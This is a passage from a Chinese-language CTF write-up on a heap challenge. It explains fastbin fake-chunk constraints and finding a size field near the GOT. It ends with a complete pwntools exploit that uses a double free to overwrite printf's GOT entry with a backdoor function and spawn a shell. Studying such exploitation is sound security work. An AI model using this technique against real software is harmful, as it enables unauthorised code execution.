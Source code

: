 按到底如果我们在申请一个0x20一下的堆块时，就可以把位于0x3837363534333241内存当做堆块数据部分给fastbin这个链表了，但是显然这里认为这不个合法堆块。因为目标地址需要满足一个约束，即size字段需要是fastbin这个链的大小，即目标地址的前8个字节需要满足，64位下这8个字节只要低4个字节满足就可以了。所以通过这种方式，我们可以控制的内存是需要满足一定约束的内存。也可以称这种满足要求的内存部分为伪堆块。获得这种内存有两种方式：

1. 寻找是否有天然满足伪堆块的约束的内存
2. 想办法构造伪堆块

### fake chunk

本题存在后们函数，所以难点就在于如何构造fastbin的大小和fd的位置。如果分配到GOT表前，则会破坏PLT0导致程序崩溃。如何找呢？我们先在进行一系列添加删除操作后打断，然后观察GOT表的内存，找到如下可用的fastbin attack size：

![image](https://xuanxuanblingbling.github.io/assets/pic/paper/1.png)

如果采用0x60202a为fd，继续分析可以控制0x60203a处，system地址被破坏，printf覆盖为gg()地址。利用时需要还原system地址，同时触发printf调用即可，如图：

![image](https://xuanxuanblingbling.github.io/assets/pic/paper/2.png)

所以控制伪堆块的地址为0x60202a，构造堆块的大小为0x40，即可以申请0x30paper大小，构造数据为`"\x40\x00\x00\x00\x00\x00"+p64(myelf.symbols["gg"])`，然后触发printf即可getshell

### exp

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

myelf = ELF("./paper")
io = process(myelf.path)

def add_paper(num, index, content):
    io.recv()
    io.sendline("1")
    io.recv()
    io.sendline(str(index))
    io.recv()
    io.sendline(str(num))
    io.recv()
    io.sendline(content)

def del_paper(index):
    io.recv()
    io.sendline("2")
    io.recv()
    io.sendline(str(index))

add_paper(0x30, 1, "1")
add_paper(0x30, 2, "1")
del_paper(1)
del_paper(2)
del_paper(1)

add_paper(0x30, 1, p64(0x60202a))
add_paper(0x30, 1, "1")
add_paper(0x30, 1, "1")
add_paper(0x30, 1, "\x40\x00\x00\x00\x00\x00"+p64(myelf.symbols["gg"]))

io.recv()
io.sendline("a")
io.interactive()
```

## 参考

- [ISCC218--Write Some Paper(入门第一题)](http://www.luyixian.cn/news_show_255502.aspx)
- [BCTF2018 Easiest - fastbin attack](https://thinkycx.me/2018-12-01-BCTF2018-easiest.html)